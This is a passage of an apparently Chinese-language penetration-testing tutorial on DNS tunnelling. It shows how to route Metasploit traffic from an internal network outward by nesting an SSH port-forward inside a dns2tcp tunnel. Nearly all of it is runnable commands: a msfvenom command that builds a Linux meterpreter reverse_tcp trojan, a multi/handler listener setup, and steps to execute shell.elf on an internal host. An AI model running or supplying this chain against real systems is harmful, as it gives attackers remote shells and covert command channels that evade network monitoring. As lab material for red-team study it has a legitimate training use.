 ![dns2tcp4](img/Tunnel/dns2tcp4.png)

---

**若需要将内网 msf 流量转发到外网：**

参考：https://blog.csdn.net/redwand/article/details/112727816

通过 dns 隧道嵌套 ssh 隧道实现本地端口转发：

```
ssh -CfNg -L 6666:<服务器IP>:6666 root@127.0.0.1 -p 4444
```

![dns2tcp5](img/Tunnel/dns2tcp5.png)

生成木马，监听在客户端 192.168.13.188 的 6666 端口上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.13.188 LPORT=6666 -f elf > shell.elf
```

服务器打开 msf，监听 6666 端口：

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > run
```

在内网的主机(这里选择另一台虚拟机 192.168.13.100)运行 shell.elf

```
chmod 777 shell.elf
./shell.elf
```
